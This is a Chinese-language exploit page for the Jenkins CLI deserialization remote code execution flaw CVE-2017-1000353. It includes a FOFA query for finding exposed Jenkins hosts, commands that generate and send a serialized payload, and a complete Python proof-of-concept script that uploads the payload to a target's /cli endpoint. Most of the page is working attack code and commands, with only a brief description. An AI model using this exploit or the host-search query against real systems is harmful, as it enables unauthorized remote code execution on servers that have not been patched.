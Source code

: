 ```yaml
---
Title: Jenkins CI 远程代码执行漏洞 CVE-2017-1000353
---
```


# Jenkins CI 远程代码执行漏洞 CVE-2017-1000353

## 漏洞描述

攻击者可以将序列化的Java SignedObject对象，传输到基于远程处理的Jenkins CLI，这将最终造成反序列化，进而绕过现有基于黑名单的保护机制。Altoros Jenkins for PCF 1.0.2之前所有版本都受影响，所有用户尽快升级

## 漏洞影响

<a-checkbox checked>Jenkins</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJKZW5raW5zIg%3D%3D">app="Jenkins"</a-button>
</a-checkbox>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1629513094370-fcc9d9e0-e71c-4e95-a197-b24f0bb85f2f-20220308154434574.png)

<a-alert type="success" message="下载生成POC的工具: https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar" description="" showIcon>
</a-alert>

<br/>

生成 `jenkins_poc.ser`

```bash
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
```

![img](/assets/PeiQi-Wiki/img/1629514273598-a151eaba-8a4e-4070-b274-caaedef61293.png)



使用Python脚本命令执行

`https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py`

```python
python3 jenkins.py http://xxx.xxx.xxx.xxx:8080 jenkins_poc.ser
```

![img](/assets/PeiQi-Wiki/img/1629514591067-fd7562de-73c4-4600-b071-459df7843238.png)

成功生成 success

![img](/assets/PeiQi-Wiki/img/1629514953277-01a113d9-3d07-4656-921b-0e80bcd712b9.png)

## 漏洞POC

```python
import urllib
import sys
import requests
import uuid
import threading
import time
import gzip
import urllib3
import zlib

proxies = {
# 'http': 'http://127.0.0.1:8085',
# 'https': 'http://127.0.0.1:8090',
}

URL = '%s/cli' % sys.argv[1].rstrip('/')

PREAMLE = b'<===[JENKINS REMOTING CAPACITY]===>rO0ABXNyABpodWRzb24ucmVtb3RpbmcuQ2FwYWJpbGl0eQAAAAAAAAABAgABSgAEbWFza3hwAAAAAAAAAH4='
PROTO = b'\x00\x00\x00\x00'

with open(sys.argv[2], "rb") as f:
    FILE_SER = f.read()

def download(url, session):

    headers = {'Side' : 'download'}
    headers['Content-type'] = 'application/x-www-form-urlencoded'
    headers['Session'] = session
    headers['Transfer-Encoding'] = 'chunked'
    r = requests.post(url, data=null_payload(), headers=headers, proxies=proxies, stream=True, verify=False)
    print(r.content)


def upload(url, session, data):

    headers = {'Side' : 'upload'}
    headers['Session'] = session
    headers['Content-type'] = 'application/octet-stream'
    headers['Accept-Encoding'] = None
    r = requests.post(url,data=data,headers=headers,proxies=proxies, verify=False)


def upload_chunked(url,session, data):

    headers = {'Side' : 'upload'}
    headers['Session'] = session
    headers['Content-type'] = 'application/octet-stream'
    headers['Accept-Encoding']= None
    headers['Transfer-Encoding'] = 'chunked'
    headers['Cache-Control'] = 'no-cache'

    r = requests.post(url, headers=headers, data=create_payload_chunked(), proxies=proxies, verify=False)


def null_payload():
    yield b" "

def create_payload():
    payload = PREAMLE + PROTO + FILE_SER

    return payload

def create_payload_chunked():
    yield PREAMLE
    yield PROTO
    yield FILE_SER

def main():
    print("start")

    session = str(uuid.uuid4())

    t = threading.Thread(target=download, args=(URL, session))
    t.start()
    
    time.sleep(2)
    print("pwn")
    #upload(URL, session, create_payload())

    upload_chunked(URL, session, "asdf")

if __name__ == "__main__":
    main()

```

